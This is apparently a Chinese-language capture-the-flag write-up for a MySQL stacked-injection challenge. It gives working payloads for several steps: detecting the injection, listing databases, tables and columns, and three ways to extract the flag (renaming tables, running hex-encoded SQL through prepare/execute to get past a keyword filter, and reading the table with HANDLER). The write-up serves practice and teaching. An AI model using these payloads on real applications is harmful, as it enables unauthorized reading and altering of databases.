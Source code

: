 1，测试 1' or 1=1 # ,初步判定存在SQL注入。
`1' or 1=1 #`

再测试字段数，到3时报错，说明字段数为2.
`1' order by 1 # `

接着尝试union注入,回显了过滤的关键字。
`1' union select 1,2#`

尝试堆叠注入:原理很简单，就是通过 ; 号注入多条SQL语句。

查库
`0'; show databases; #`
查表
`0'; show tables; #`
查字段
`1'; show columns from words; #`
表名为数字时，要用反引号包起来查询
0'; show columns from \`1919810931114514 \`; #


### 解题思路1：

1，通过 rename 先把 words 表改名为其他的表名。

2，把 1919810931114514 表的名字改为 words 。

3 ，给新 words 表添加新的列名 id 。

4，将 flag 改名为 data 。
```sql
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#

```
### 解题思路2：


因为select被过滤了，所以先将select * from ` 1919810931114514 `进行16进制编码

再通过构造payload得

```sql
;SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#
```




### 解题思路3：

比赛后复现用的payload：

```
1'; handler `FlagHere` open as `a`; handler `a` read next;#
```

后来在buu上做时发现了payload2，貌似要复杂一点：

```
1';HANDLER FlagHere OPEN; HANDLER FlagHere READ FIRST; HANDLER FlagHere CLOSE;#
```



